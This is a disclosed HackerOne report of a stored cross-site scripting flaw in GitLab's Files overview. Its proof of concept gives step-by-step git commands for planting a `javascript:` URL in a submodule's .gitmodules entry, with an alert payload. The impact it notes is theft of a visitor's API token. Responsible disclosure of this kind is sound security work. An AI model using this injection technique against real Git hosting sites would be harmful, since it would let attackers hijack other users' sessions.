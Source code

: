 # Stored XSS on Files overview by abusing git submodule URL

## Report Details
- **Report ID**: 218872
- **URL**: https://hackerone.com/reports/218872
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-04-05T20:33:16.970Z
- **Disclosed**: 2017-05-09T16:00:07.317Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Vulnerability description
There's a stored Cross-Site Scripting (XSS) vulnerability in the Files overview of a project due to the incorrect handling of a git submodule. This allows an attacker to execute JavaScript in a visitor's session.

# Proof of concept
To reproduce the issue, the attacker needs to have a project with push access. To start, make sure you're signed in and have enabled the wiki. Now, clone both repositories:

```
git clone git@gitlab.com:user/project
git clone git@gitlab.com:user/project.wiki
```

Now `cd project.wiki`  and initialize the repository:

```
touch some-file
git add some-file
git commit -am "Added file to initialize wiki repository"
git push
```

Now repeat the same in the `project` directory add the `project.wiki` as a relative git submodule to `project`:

```
touch some-file
git add some-file
git commit -am "Added file to initialize project repository"
git push
git submodule add ../project.wiki wiki
git add wiki
git commit -am "Added relative wiki module"
git push
```

This will create a `.gitmodules` file with the following contents:

```
[submodule "wiki"]
  path = wiki
  url = ../project.wiki
```

In this file, the URL can be updated to a `javascript:` URL. It won't error because the contents of the submodule are already fetched by the `git submodule add` command. Lets change `url = ../project.wiki` to `url = javascript:alert('XSS');` (see F173589). Now commit the results and push the changes:

```
git add .
git commit -am "Updated relative URL"
git push
```

Now go to the project's Files overview: https://gitlab.com/user/project/tree/master. In the overview, click the `wiki` directory, and see the JavaScript getting executed:

{F173602}

# Impact
An attacker could offload the current user's API token and impersonate the user through the API.

## Attachments
- gitmodules
- Screen_Shot_2017-04-05_at_13.30.31.png
